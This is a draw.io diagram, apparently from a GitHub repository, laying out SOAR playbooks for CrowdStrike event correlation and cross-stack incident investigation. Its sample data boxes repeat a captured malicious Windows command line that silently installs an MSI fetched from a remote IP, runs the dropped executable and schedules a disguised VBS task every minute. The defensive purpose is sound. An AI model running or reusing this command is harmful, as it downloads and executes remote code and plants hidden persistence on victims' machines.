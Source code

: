 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="875" dy="478" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="150" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="350" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="760" y="1680" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="550" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="950" y="1630" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1409" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1609" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="740" y="1650" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="820" y="1650" as="sourcePoint" />
            <mxPoint x="820" y="1580" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="730" y="1420" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1000" y="1780" as="sourcePoint" />
            <mxPoint x="1010.86" y="1730" as="targetPoint" />
            <Array as="points">
              <mxPoint x="1000" y="1750" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="905" y="1780" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1300" y="1890" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1410" y="1839.04" as="sourcePoint" />
            <mxPoint x="1470.04" y="1790" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="140" y="1350" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="170" y="1370" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="60" width="8410" height="1160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
